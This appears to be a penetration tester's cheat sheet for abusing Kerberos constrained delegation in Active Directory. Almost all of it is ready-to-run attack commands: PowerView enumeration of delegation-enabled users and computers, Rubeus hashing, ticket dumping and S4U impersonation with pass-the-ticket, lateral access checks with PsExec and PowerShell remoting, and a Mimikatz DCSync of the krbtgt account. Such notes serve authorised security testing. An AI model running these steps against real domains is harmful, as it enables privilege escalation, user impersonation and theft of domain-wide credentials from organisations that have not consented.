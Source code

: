 ````
### Constrained Delegation
- To execute attack owning the user or server with constrained delegation is required.

#### Enumerate users with contrained delegation enabled
```
Get-DomainUser -TrustedToAuth
Get-DomainUser -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

#### Enumerate computers with contrained delegation enabled
```
Get-Domaincomputer -TrustedToAuth
Get-Domaincomputer -TrustedToAuth | select samaccountname, msds-allowedtodelegateto
```

### Constrained delegation User
#### Rubeus calculate password hash
- If only password is available calculate the hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

#### Check for user to impersonate
```
Get-DomainUser | Where-Object {!($_.memberof -match "Protected Users")} | Where-Object {$_.useraccountcontrol -notmatch "NOT_DELEGATED"}
```

#### Rubeus request and inject TGT + TGS
- Possible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
- Impersonate any user except those in groups "Protected Users" or accounts with the "This account is sensitive and cannot be delegated" right. 
- Make sure they are local admin on the target machine.
```
.\Rubeus.exe s4u /user:<USERNAME> /rc4:<NTLM HASH> /impersonateuser:<USER> /domain:<DOMAIN> /msdsspn:<SERVICE ALLOWED TO DELEGATE>/<SERVER FQDN> /altservice:<SECOND SERVICE> /<SERVER FQDN> /ptt
```

#### Check access on target machine
```
ls \\<FQDN>\c$
Enter-PSSession -ComputerName <FQDN>
 .\PsExec64.exe \\<COMPUTERNAME> cmd
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Constrained delegation Computer
#### Dump TGT of computeraccount
```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:<LUID> /service:<SERVICE> /nowrap
```

#### Rubeus request and inject TGT + TGS
- Possible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe s4u /impersonateuser:<USER> /msdsspn:cifs/<FQDN COMPUTER> /user:<COMPUTER>$ /aes256:<AES HASH> /opsec /altservice:<SECOND SERVICE> /ptt 
````